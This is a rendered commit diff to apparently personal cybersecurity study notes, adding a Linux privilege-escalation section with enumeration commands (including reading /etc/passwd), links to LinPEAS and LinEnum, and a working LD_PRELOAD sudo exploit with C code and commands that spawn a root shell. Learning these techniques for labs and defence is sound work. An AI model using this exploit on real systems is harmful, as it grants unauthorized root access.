

Before and after one commit to smmehrab/cybersecurity, a Markdown page: README.md, the part around one of its changes. Shown at 89% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
making progress, little by little

```diff
--- a/README.md
+++ b/README.md
@@ -279,6 +279,48 @@
 
 * [PEASS-ng](https://github.com/carlospolop/PEASS-ng)
 * [GTFOBins](https://gtfobins.github.io/)
+* Linux
+  * Commands
+    * ``hostname``
+    * ``uname -a``
+    * ``/proc/version``
+    * ``/etc/issue``
+    * ps
+      * ``ps``
+      * ``ps -A``
+      * ``ps axjf``
+      * ``ps aux``
+    * ``env``
+    * ``sudo -l``
+    * ``id``
+    * ``/etc/passwd``
+      * ``cat /etc/passwd | cut -d ":" -f 1``
+      * ``cat /etc/passwd | grep home``
+    * ``history``
+    * ``ifconfig``
+    * ``ip route``
+    * ``netstat``
+      * ``netstat -a``
+    * ``find``
+      * ``find /home -name flag1.txt``
+  * [LinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
+  * [LinEnum](https://github.com/rebootuser/LinEnum)
+  * Kernel Exploit
+    * [https://www.linuxkernelcves.com/cves](https://www.linuxkernelcves.com/cves)
+  * Sudo
+    * ``sudo -l``
+    * [https://gtfobins.github.io/](https://gtfobins.github.io/)
+    * [LD_PRELOAD](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/)
+      Generate a shared library which will be loaded and executed before the program is run.
+      1. Check for LD_PRELOAD (with the env_keep option)
+      2. Write a simple C code compiled as a share object (.so extension) file
+         * ``#include <stdio.h> #include <sys/types.h> #include <stdlib.h> void _init() { unsetenv("LD_PRELOAD"); setgid(0); setuid(0); system("/bin/bash"); }``
+         * ``gcc -fPIC -shared -o shell.so shell.c -nostartfiles``
+      3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file
+         * ``sudo LD_PRELOAD=/home/user/ldpreload/shell.so find``
+  * SUID
+  *
+* Windows
 
 #### OSINT
 
```
Also changed, not shown: other parts of README.md (+1 -0 lines).
